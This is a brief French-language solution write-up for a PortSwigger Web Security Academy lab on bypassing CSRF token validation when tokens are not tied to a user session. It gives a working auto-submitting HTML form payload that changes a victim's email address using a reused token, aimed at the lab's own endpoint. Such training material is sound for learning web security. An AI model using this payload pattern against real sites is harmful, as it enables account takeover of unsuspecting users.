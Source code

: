 # Lab

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

## Payload

Dans ce lab, les tokens CSRF sont générés à chaque requete. On peut donc utiliser un token CSRF valide pour changer l'adresse email d'un autre utilisateur.

```html
<html>
    <body>
        <form action="https://0ad500cf03bc13ef83754d7300c400a1.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@sa.net" />
            <input type="hidden" name="csrf" value="9XKLS4BiLGJnNUyzXgSGyyCnYZXawsxJ" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```